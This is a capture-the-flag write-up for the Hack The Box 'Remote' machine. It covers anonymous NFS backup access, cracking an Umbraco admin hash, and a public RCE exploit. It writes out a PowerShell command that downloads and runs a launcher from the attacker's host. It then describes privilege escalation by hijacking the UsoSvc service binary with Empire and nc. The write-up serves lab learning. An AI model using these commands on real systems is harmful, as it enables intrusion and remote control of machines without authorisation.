

HTB Remote

We start out with the usual nmap scan
Points of interest here are that we have anonymous FTP access, a web server, and some nfs shares.
FTP was a dead end with nothing inside. And on the website we have a dummy Umbraco install.
The webserver was pretty boring with not a whole lot going on. So I decided to checkout the nfs shares.

We can see we have a site_backups share that is accessible. So I copied it over to kali to check it out.
Some research into Umbraco showed that it stores its database in a .sdf file inside the App_Data directory.
We can pull out the admin username and hash with a simple grep command.
This hash is easily crackable with something like JohnTheRipper. I threw it at the rockyou.txt wordlist and we get
admin@htb.local : baconandcheese
Now that we've got some creds, I did quick search to see if there's any available exploits for Umbraco, and if we have the same vulnerable version.
I ended up using this public exploit script from Github instead -
https://github.com/noraj/Umbraco-RCE
Which will essentially let us run any powershell we want on the machine. This sounded like the perfect opportunity to brush up
on our Powershell Empire skills. Our execution flow is going to look something like this -
1 - In empire we generate a powershell launcher, and start up a listener.
2 - Drop the launcher into a launcher.bat file
3 - Start up a python webserver to serve the launcher.bat file
4 - Run the github exploit with powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/launcher.bat')"
This should pull our launcher.bat file, make the connection to our empire agent, which feeds it the rest of a fully interactive shell.
We should end up with a fully interactive empire agent if all goes right.
Step 1 - generating a powershell launcher, and start up a listener
Step 2 and 3 - Dropping the launcher into a file, and starting python web server
Step 4 - Running the exploit
Over in our http server we can see launcher.bat was succesfully pulled from our machine
In empire we can see we successfully got a connection to our agent :D
We can now grab the user.txt flag like so -
Empire Privesc
Since we already have an empire agent, we might as well run the powerup scripts to see if we can catch any freebies.We can see here that powerup discovers a vulnerable service, UsoSvc. Conveniently, empire has a couple service modules to exploit this for us.
I ended up using the powershell/privesc/powerup/service_stager module. We already know from powerup that we can exploit UsoSvc. We can take a quick
peek at the required settings for the service_stager module to see what we need -
3 things we need to make it work, the agent to run it on, the service name (UsoSvc), and the listener. We will also setup a stager for the new listener.
Our steps from here should be straightforward
1. Generate a 2nd empire listener.
2. Generate a stager for this listener.
3. Run the service_stager module on our 1st agent, and set it to connect to our new listener.
In theory this should overwrite the UsoSvc service binary with our new stager, and then make a connection to our new listener, which will feed it the rest of the payload
hopefully resulting in a SYSTEM/NT AUTHORITY shell.
Step 1 - setting up our new listener

Step 2 - setting up our stager
Step 3 - running the service stager module

We are able to immediately see that empire caught a connection on our new listener and generated a SYSTEM/NT AUTHORITY agent.
All thats left from here is to interact with it and grab our flag
Empire is an awesome tool. I went ahead and redid this the manual route as well too. -
Manual Privesc
After spawning a manual shell with our previous exploit (just used a powershell rev shell instead of the empire agent), I dropped powerup onto the boxto confirm our earlier finding. As expected we get the same result.
Our steps from here are to overwrite the binary for UsoSvc, start up our listener in kali, and then restart the UsoSvc and we should catch a system shell.
I dropped the windows nc.exe on the box in c:\windows\temp so we can easily send ourselves a shell, and then overwrote the binary path.
Then we start a nc listener and restart the UsoSvc service
And finally back in our listener we have our system shell.
We got r00t !!